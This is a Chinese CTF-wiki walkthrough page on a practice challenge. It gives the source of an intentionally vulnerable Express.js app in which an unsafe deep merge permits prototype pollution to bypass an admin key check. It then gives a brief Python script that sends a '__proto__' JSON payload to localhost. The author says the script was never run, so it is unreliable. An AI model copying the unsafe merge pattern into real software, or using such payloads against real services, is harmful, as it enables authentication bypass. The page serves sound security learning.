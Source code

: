 # 实战
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



```plain
```javascript
const http = require("http");
const express = require("express");
const bodyParser = require("body-parser");
const mixme = require("mixme");
const session = require("express-session");
const randomize = require("randomatic");
const morgan = require("morgan");
const app = express();//类似定义的宏常量
app.set("json escape", true);//转义
app.use(morgan("short"));
app.use(bodyParser.urlencoded({ extended: true })).use(bodyParser.json());
// app.use(express.json());
app.use(
session({
name: "session",
secret: randomize("aA0", 16),
resave: false,
saveUninitialized: false,
})
);
const Super = {
passone: process.env.sperson,//环境变量控制
};
function blacklist(url) {
var evilwords = ["DirectoryIterator", "FilesystemIterator", "GlobIterator"];//这里面都是php的类名
var arrayLen = evilwords.length;
for (var i = 0; i < arrayLen; i++) {
const trigger = url.includes(evilwords[i]);
if (trigger === true) {
return true;
}
}
}
//TODO
//get url content
app.post("/getinfo", (req, res) => {
console.log(req.body);
if (req.body.userid === undefined || req.body.key === undefined) {
res.send("you want to post null?");
} else {
let userid = req.body.userid;
let key = req.body.key;
console.log(userid);
console.log(key);//在控制台上输出信息
if (Super[userid] === key) {
res.send(
"admin!\nyou can goto ***** endpoint to hack!"
);
} else {
res.send("You are not the Super, so I cannot give you the truth.");
}
}
});
app.all("/", (req, res) => {
let data = { userid: [], key: [] };
console.log(data);
console.log(req.body);
if (req.method == "POST" && req.body) {
data = mixme.merge(data, req.body);
req.session.data = data;
// console.log("After MERGE: " + Super["test"]);
}
res.send("to be admin and you will find it!");
});
app.listen(3000, () => console.log(`Example app listening on port 3000!`));
```
Plain Text
```



这就是那天的源码


第66行有个merge合并函数


51行有个比较绕过


我们通过原型链的污染来过


代码逻辑不是很难


所以最终我们只需要传参就ok。后台估计是有东西是一直在删除，所以最好整个脚本。


```plain
import requests
import time
url1='127.0.0.1'
url2='127.0.0.1/getinfo'
post_data1='{"__proto__":{"a":"b"}}'
post_data2='{"userid":"a","key":"b"}'
headers = {
"Content-Type":"application/json"
}
reqs1=requests.post(url1,data=post_data1,headers=headers)
print(reqs1.text)
time.sleep(0.5)
reqs2=requests.post(url2,data=post_data2,headers=headers)
print(reqs2.text)
Plain Text
```



（我没用过但应该就这样吧...）


